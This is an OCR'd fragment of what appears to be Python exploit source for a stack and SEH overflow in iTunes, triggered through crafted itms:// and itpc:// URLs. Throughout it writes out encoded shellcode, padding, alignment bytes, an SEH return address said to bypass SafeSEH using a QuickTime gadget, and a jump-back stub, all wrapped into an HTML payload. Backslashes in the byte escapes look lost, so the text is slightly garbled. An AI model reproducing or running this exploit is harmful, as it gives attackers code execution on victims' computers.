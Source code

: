              "tnkRegLLKSLfepx31zOlK2o7hlKqOEpWqZK3ylKwDLKeQHndqo0j9llOt9P3D"
             "uW9Q8J4MWqkrJKkDukPTWTq845M5LKQOq4VajKcVLKTLPKlKQOUL6ajK336LL"
             "KMY0lWTwle1O3TqiK2DLKaSFPLKQPVllK0p7lLmlK3pUXQNU8LNbnvnjL0PkO"
             "8V2Fv3U61xds02U8RWpsVRqO649on0PhjkZMYlekpPKOKfsoMYkUpfna8mgxV"
             "b65RJuRIoHPPhHYFiL5lmBwkOzvpSPSV3F3bsg3BsSsScIohPsVRHR1sl2Fcc"
             "k9M1nuphOT6zppIWrwKO8VcZ6ppQv5KO8PBHmtNMvNm9QGKON6aCqEkOZpbHZ"
             "EbiNfRiSgioiFRpf40TseiohPLSu8KWD9kvPyf7YoxVqEKOxPu6sZpd3VSX1s"
             "0mK98ecZRpv9Q9ZlMYkWqzpDmYxbTqO0KCoZKNaRVMkN3r6LJ3NmpzFXNKNKL"
             "ksX0rkNls5FkOrURdioXVSk67PRPQsapQCZgqbq0QSesaKOxPaxNMZyEUjnCc"
             "KOn6qzKOkOtwKOJpNk67YlMSKtcTyozvrryozp0hXoZnYp1p0SkOXVKOHPA")
# Padding
pad0x1          = "x41"*425

# Make EDX pointing to shellcode and "pray" sh3llcod3 M@cumBa w00t w00t
align           = "x61"*45 + "x54x5A" + "x42"*6 + "V"*10

# Padding
pad0x2          = "x41"*570

# ASCII friendly RET overwriting SEH: bye bye canary, tweet tweet
# 0x67215e2a QuickTime.qts ADD ESP,8;RETN (SafeSEH bypass)
ret             = "x2ax5ex21x67"

# Let the dance begin... Point EBP to encoded jmp
align_for_jmp   = "x61x45x45x45" + ret + "x44" + "x45"*7

# Decode a NEAR JMP and JUMP BACK BABY!
jmp_back        = ("UYCCCCCCIIIIIIIIII7QZjAXP0A0AkA"
                   "AQ2AB2BB0BBABXP8ABuJIZIE5jZKOKOA")
# Padding
pad0x3          = "x43"*162

# We send 2 payloads to iTunes: first is itms and second itpc
# url1 smashes the stack in order to get an AV later
url1            = "itms://:" + "x41"*200 + "/"
url2            = "itpc://:" + pad0x1 + align + shellcode +pad0x2 +
                               align_for_jmp + jmp_back + pad0x3
payload         = html % (url1, url2)
